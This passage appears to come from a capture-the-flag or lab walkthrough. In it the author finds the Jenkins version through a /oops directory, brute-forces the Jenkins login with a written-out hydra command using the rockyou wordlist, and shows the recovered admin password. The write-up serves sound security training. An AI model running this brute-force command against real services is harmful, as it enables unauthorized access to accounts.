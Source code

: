 Navigating to the **/oops** directory does provide us with the Jenkins version:

```
Jenkins version 2.250
```

I check around for exploits on that version of Jenkins and don't find much. I think it's time to try brute forcing the login page here like we did previously on the WordPress site.

I start up a **hydra** attack with the following:

`hydra -l admin -P rockyou.txt -s 8080 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:F=Invalid username or password" -V -f`

And in less than a minute get back a successful result!

```
[8080][http-post-form] host: 127.0.0.1   login: admin   password: spongebob
[STATUS] attack finished for 127.0.0.1 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

With that I head back to the login page and login:

<br>

![](images/internal9.png)
